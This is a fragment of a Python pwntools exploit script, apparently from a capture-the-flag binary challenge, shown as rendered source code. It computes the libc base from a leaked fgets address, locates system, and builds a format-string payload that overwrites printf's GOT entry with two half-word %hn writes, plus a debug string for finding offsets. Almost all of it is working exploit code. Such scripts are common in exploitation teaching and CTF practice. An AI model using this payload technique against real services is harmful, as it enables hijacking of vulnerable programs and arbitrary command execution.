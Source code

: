 ```python
    system0 = de.lookup("system", "libc")
    system = system0
    log.info("found system 0x{:x}".format(system))
"""
# build id: 5ab6a00d805f696b8aa6d0d2ee29d511b41499d1

libc = ELF("./libc-2.19.so")
libc_base = fgets_leaked - libc.symbols["fgets"]
libc.address = libc_base
system = libc.symbols['system']
log.info("found system 0x{:x}".format(system))


target = printf_got

# split system addr in half, for writing with two %hn
target_hi = target + 2
system_hi = (system & 0xffff0000) >> 16
target_lo = target
system_lo = (system & 0xffff)

log.info("system_hi 0x{:x} system_lo 0x{:x}"
         .format(system_hi, system_lo))

o = 14

# debug format string for testing offsets
fmt2 = ""
fmt2 += "%{}$s".format(o)
fmt2 += "\xff"
fmt2 += "%{}$s".format(o + 1)
fmt2 += "\xff"
fmt2 += "\x00" * (28)
fmt2 += p32(target_lo)
fmt2 += p32(target_hi)

log.info(hexdump(fmt2))
vp.sendline(fmt2)

vp.recvline()
log.info(hexdump(vp.recvuntil("\xff")))
log.info(hexdump(vp.recvuntil("\xff")))

# actual format string attack
o = 14
addr_hi = "%{}$hn".format(o + 1)
addr_lo = "%{}$hn".format(o)
if target_lo > target_hi:
    fmt = ""
    fmt += "%1${}c".format(system_hi)
    fmt += addr_hi
    fmt += "%1${}c".format(system_lo - system_hi)
    fmt += addr_lo
else:
    fmt = ""
    fmt += "%1${}c".format(system_lo)
    fmt += addr_lo
    fmt += "%1${}c".format(system_hi - system_lo)
    fmt += addr_hi

fmt += "\xff%{}$s\xff".format(o)
# fmt += "\x00" * (len(fmt) % 4)
fmt += "\x00" * 3
```